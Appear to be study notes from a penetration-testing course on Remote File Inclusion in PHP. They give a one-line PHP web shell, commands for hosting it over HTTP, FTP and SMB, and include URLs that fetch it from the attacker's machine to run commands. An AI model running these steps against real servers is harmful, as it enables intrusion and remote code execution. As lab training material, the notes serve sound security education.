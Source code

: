 * In some cases, we may also be able to include remote files "[Remote File Inclusion (RFI)](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion)", if the vulnerable function allows the inclusion of remote URLs
	* Enumerating local-only ports and web applications (i.e. SSRF)
	* Gaining remote code execution by including a malicious script that we host

*The [Server-side Attacks](https://academy.hackthebox.com/module/details/145) module covers various `SSRF` techniques, which may also be used with RFI vulnerabilities*

## Local vs. Remote File Inclusion
* Almost any RFI vulnerability is also an LFI vulnerability, as any function that allows including remote URLs usually also allows including local ones
* LFI may not necessarily be an RFI
	1.  The vulnerable function may not allow including remote URLs
	2.  You may only control a portion of the filename and not the entire protocol wrapper (ex: `http://`, `ftp://`, `https://`)
	3.  The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default

## Verify RFI
* Considered dangerouse practice to include remote URLs
* Usually disabled by default
* Any remote URL inclusion in PHP would require the `allow_url_include` setting to be enabled

```sh
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

* However, this may not always be reliable, as even if this setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with
* So, a more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to `try and include a URL`, and see if we can get its content
* At first, `we should always start by trying to include a local URL` to ensure our attempt does not get blocked by a firewall or other security measures (`http://127.0.0.1:80/index.php`)
* `http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`

![](lfi_local_url_include.jpg)

* As we can see, the `index.php` page got included in the vulnerable section (i.e. History Description), so the page is indeed vulnerable to RFI, as we are able to include URLs
* Furthermore, the `index.php` page did not get included as source code text but got executed and rendered as PHP, so the vulnerable function also allows PHP execution, which may allow us to execute code if we include a malicious PHP script that we host on our machine
* We also see that we were able to specify port `80` and get the web application on that port
* If the back-end server hosted any other local web applications (e.g. port `8080`), then we may be able to access them through the RFI vulnerability by applying SSRF techniques on it

**Note:** It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.

## Remote Code Execution with RFI
* First step is to create a malicious script in the language of the web application (e.g PHP)

```sh
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

* Host the script and include it through the RFI
* It is a good idea to listen on a common HTTP port like `80` or `443`, as these ports may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections
* We may host the script through an FTP service or an SMB service

## HTTP

```sh
$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

* We can include our local shell through RFI, like we did earlier, but using `<OUR_IP>` and our `<LISTENING_PORT>`
* Specifiy the command that should be executed with `&cmd=id`
* `http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`

![](rfi_localhost.jpg)

```sh
$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```

**Tip:** We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload

## FTP
* We may also host our script through the FTP protocol

```sh
$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

* This may also be useful in case http ports are blocked by a firewall or the `http://` string gets blocked by a WAF
* To include our script, we can repeat what we did earlier, but use the `ftp://` scheme in the URL
* `http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id`

![](rfi_localhost.jpg)

* By default, PHP tries to authenticate as an anonymous user
* If the server requires valid authentication, then the credentials can be specified in the URL

```sh
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## SMB
* If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion
* This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path
* We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default

```sh
$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

* Now, we can include our script by using a UNC path (e.g. `\\<OUR_IP>\shell.php`), and specify the command with (`&cmd=whoami`)
* `http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\shell.php&cmd=whoami`

![](windows_rfi.png)

* However, we must note that this technique is `more likely to work if we were on the same network`, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations
